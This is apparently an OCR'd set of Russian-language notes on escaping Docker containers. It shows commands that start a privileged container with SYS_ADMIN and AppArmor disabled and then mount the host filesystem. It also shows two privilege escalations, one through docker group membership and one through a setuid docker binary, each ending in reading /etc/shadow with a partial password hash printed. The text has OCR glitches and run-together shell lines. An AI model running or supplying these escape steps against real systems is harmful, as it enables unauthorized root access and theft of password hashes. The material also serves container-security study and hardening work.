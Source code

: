 Прсомотр capabilities в контейнере
```bash
apt-get install libcap2-bin
capsh --print
```

Запуск контейнера на хосте:
```bash
# Run vulnarable container on host
docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined --device=/dev/:/ ubuntu bash
```

Монтируем хостовую файловую систему
```bash
lsblk
mount /<device_file> /mnt
cd /mnt
ls -la
```

Используя тот факт, что пользователь включен в docker группу, просматриваем всю файловую систему, смонтировав ее себе
```
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host. (host)$ groups | grep -o docker
docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash (cont)# grep admin /host/etc/shadow admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
```

Запуск docker с установленным setuid
```
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host. (host)$ groups | grep -o docker
(host)$ ls -halt /usr/bin/docker
-rwsr-xr-x 1 root root 85M okt 18 17:52 /usr/bin/docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash (cont)# grep admin /host/etc/shadow admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
```